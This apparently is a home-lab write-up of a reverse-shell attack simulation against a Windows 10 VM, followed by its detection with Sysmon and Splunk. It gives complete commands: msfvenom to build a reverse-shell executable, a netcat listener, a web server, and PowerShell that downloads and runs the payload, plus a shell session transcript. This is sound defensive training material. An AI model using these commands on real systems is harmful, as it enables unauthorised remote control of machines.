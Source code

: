 # 🛠️ Reverse Shell via Executable Payload

## 📋 Overview
In this attack simulation, a reverse shell was established by executing a malicious .exe payload generated using msfvenom. The attacker gained interactive access to the victim Windows machine through a simple TCP connection.


## ⚙️ Attack Details
Attacker (Kali)
- IP: 192.168.0.11
- Tool: msfvenom, nc (Netcat)

Victim (Windows 10)
- IP: 192.168.0.12
- Role: Windows endpoint target


## 🧱 Commands Used
Kali Linux (Attacker)

    # Generate the payload
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.11 LPORT=4444 -f exe > shell.exe

    # Start listener
    nc -lvnp 4444

    # Create webserver
    python3 -m http.server 8000
<details>
<summary>🖼️ Payload, netcat, server</summary>

![Screenshot 2025-04-27 133221](https://github.com/user-attachments/assets/0e1fc79a-c9c2-4f70-bc65-dfdec1f1efb1)

</details>


Windows 10 (Victim)
``` powershell
# Download the payload
Invoke-WebRequest -Uri http://192.168.0.11:8000/shell.exe -OutFile shell.exe
# Execute the payload
.\shell.exe
```
<details>
<summary>🖼️ Download and execute payload</summary>

![Screenshot 2025-04-27 133506](https://github.com/user-attachments/assets/cfaf92f9-c747-4e47-a339-94918275735e)

</details>


## 🔍 Detection in Splunk
✅ Process Creation Event (EventCode=1) captured in Splunk:
- Image: C:\Users\vboxuser\Desktop\shell.exe
- User: victim-win\vboxuser
- Parent Process: powershell.exe
- Source: Microsoft-Windows-Sysmon/Operational
- IntegrityLevel: High
- CommandLine: "C:\Users\vboxuser\Desktop\shell.exe"
- Hashes: [MD5, SHA256, IMPHASH]
<details>
<summary>🖼️ Network Connection event</summary>

![Screenshot 2025-04-27 133823](https://github.com/user-attachments/assets/97db5991-370c-4704-8677-2817a1654904)

</details>

<details>
<summary>🖼️ Process Creation event</summary>

![Screenshot 2025-04-27 134017](https://github.com/user-attachments/assets/ab216fcf-1c0d-4fa7-8217-a2c4ba1c1056)

</details>


## 🔥 Outcome
- A reverse TCP shell was successfully established.
  <details>
  <summary>🖼️ Reverse TCP connection</summary>

  ![Screenshot 2025-04-27 133508](https://github.com/user-attachments/assets/9e29afd2-dd68-4aeb-943d-b631dc2a84f5)

  </details>

- The attacker achieved interactive command execution on the victim.
  <details>
  <summary>🖼️ Interactive command execution</summary>

  ![Screenshot 2025-04-27 143520](https://github.com/user-attachments/assets/434f1992-5589-44d7-bf22-8458d5c6b37c)

  </details>
  <details><summary>📜 View Session Transcript</summary>

      listening on [any] 4444 ...
      connect to [192.168.0.11] from (UNKNOWN) [192.168.0.12] 51716
      Microsoft Windows [Version 10.0.19045.3930]
      (c) Microsoft Corporation. All rights reserved.

      C:\Users\vboxuser>whoami
      victim-win\vboxuser

      C:\Users\vboxuser>hostname
      VICTIM-WIN

      C:\Users\vboxuser>ipconfig
      Windows IP Configuration

      Ethernet adapter Ethernet:
         IPv4 Address. . . . . . . . . . . : 10.0.2.15
      Ethernet adapter Ethernet 2:
         IPv4 Address. . . . . . . . . . . : 192.168.0.12

      C:\Users\vboxuser>systeminfo
      Host Name:                 VICTIM-WIN
      OS Name:                   Microsoft Windows 10 Enterprise Evaluation
      OS Version:                10.0.19045 N/A Build 19045
      System Manufacturer:       innotek GmbH
      System Model:              VirtualBox

  </details>

- The activity was detected and logged by Sysmon and visualized through Splunk.


## 📌 Notes
This demonstrates the importance of process monitoring, parent-child relationship analysis, and hash-based detection in catching early-stage attacks.
